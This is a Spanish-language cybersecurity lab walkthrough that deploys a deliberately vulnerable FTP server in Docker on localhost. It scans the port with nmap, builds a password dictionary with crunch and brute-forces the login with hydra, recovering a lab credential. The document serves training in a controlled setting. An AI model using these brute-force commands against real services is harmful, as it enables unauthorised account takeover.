






# 🗃️ Carpeta CyberComandos

# 🛡️ Resolución de Máquina Virtual: Servicio FTP Vulnerable

Este documento describe el paso a paso para desplegar, analizar y explotar un servicio FTP vulnerable en un contenedor Docker, como parte de un laboratorio práctico de ciberseguridad ofensiva.

---

## 1. Descarga e inicialización del contenedor Docker vulnerable

Se emplea la imagen `j4rvisai/ftp_server:1.0`, que proporciona un servidor FTP basado en `vsFTPd`. Este se expone en el puerto 21 del contenedor, el cual será redirigido al puerto 2222 del host.

### Paso 1.1 – Descargar la imagen desde Docker Hub

Se utiliza el siguiente comando para descargar la imagen vulnerable:

```bash
sudo docker pull j4rvisai/ftp_server:1.0
```



---

### Paso 1.2 – Ejecutar el contenedor con redirección de puertos

Posteriormente, se ejecuta el contenedor redirigiendo el puerto 21 del contenedor al puerto 2222 del host:

```bash
sudo docker run -d -p 2222:21 --name ftp_server j4rvisai/ftp_server:1.0
```

**Explicación de parámetros:**

- `-d`: Ejecuta el contenedor en segundo plano (modo "detached").
- `-p 2222:21`: Redirige el puerto 2222 del host hacia el puerto 21 del contenedor.
- `--name ftp_server`: Asigna el nombre `ftp_server` al contenedor.
- `j4rvisai/ftp_server:1.0`: Especifica la imagen a ejecutar.



---

## 2. Verificación de la exposición del puerto

Se verifica que el contenedor está en ejecución y que el puerto 2222 está correctamente expuesto en el host.

### Paso 2.1 – Verificar contenedor activo

```bash
sudo docker ps
```

Este comando muestra información de los contenedores activos, incluyendo los puertos redirigidos.



### Paso 2.2 – Escaneo del puerto con Nmap

```bash
nmap -p 2222 localhost
```

Esto confirma que el puerto 2222 está abierto y escuchando conexiones.



---

## 3. Generación del diccionario con Crunch

Se emplea la herramienta `crunch` para generar un diccionario con una estructura específica, útil para ataques de fuerza bruta.

```bash
crunch 15 15 -t Julior0@@@@@tas -o dict.txt
```

**Explicación del patrón:**

- Longitud: 15 caracteres.
- Prefijo fijo: `Julior0`
- Cinco caracteres variables en minúscula (`@` representa letras minúsculas).
- Sufijo fijo: `tas`

Visualización del contenido del diccionario:

```bash
head dict.txt
```



---

## 4. Acceso manual al servicio FTP

Antes de realizar el ataque automatizado, se prueba el acceso manual al servicio FTP:

```bash
ftp localhost -p 2222
```

Cuando el servicio responde correctamente y permite autenticarse, se confirma que está funcionando.


---

## 5. Fuerza bruta con Hydra

Se lanza un ataque de fuerza bruta al servicio FTP utilizando `Hydra`:

```bash
hydra -l julio.ventas -P dict.txt ftp://localhost:2222 -t 4
```

**Parámetros empleados:**

- `-l`: Nombre de usuario.
- `-P`: Ruta del diccionario de contraseñas.
- `-t`: Número de tareas paralelas.
- `ftp://localhost:2222`: Objetivo (servicio y puerto).

Hydra encuentra una combinación válida:

- Usuario: `julio.ventas`
- Contraseña: `Julior0joventas`



---

## 6. Conclusión

Este laboratorio demuestra cómo un servidor FTP vulnerable con contraseñas predecibles puede ser comprometido mediante técnicas de fuerza bruta. El uso combinado de `Docker`, `Crunch`, `Hydra` y herramientas de verificación como `Nmap` permite construir un entorno controlado para pruebas de penetración y entrenamiento en ciberseguridad ofensiva.

---

## 🛠️ Herramientas utilizadas

- **Docker**: Para desplegar la máquina vulnerable basada en `j4rvisai/ftp_server:1.0`.
- **Nmap**: Para descubrir puertos abiertos y verificar servicios activos.
- **Crunch**: Generador de diccionarios personalizados.
- **Hydra**: Herramienta de fuerza bruta para servicios de red (en este caso FTP).
- **FTP** (cliente): Para realizar pruebas de autenticación manual.

---

